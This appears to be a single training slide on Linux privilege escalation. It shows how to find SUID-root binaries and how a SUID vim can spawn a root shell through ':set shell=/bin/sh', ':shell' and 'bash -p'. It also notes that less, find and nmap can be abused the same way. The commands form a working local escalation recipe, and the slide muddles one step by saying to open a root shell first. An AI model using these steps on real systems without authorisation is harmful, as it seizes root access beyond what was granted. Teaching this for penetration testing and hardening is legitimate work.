

# Vim SetUID() Example

First, search for files with the setuid() bit --  find / -user root –perm -4000 –print 2>/dev/null
If Vim is listed here, it inherits root permissions when run. Open a root bash shell and launch vim. Then set the following within the bash shell:
:set shell=/bin/sh
:shell
This will give an interactive shell that can then be upgraded to Bash with: bash –p
This kind of privilege escalation can take place using Less, Find, or Nmap as well.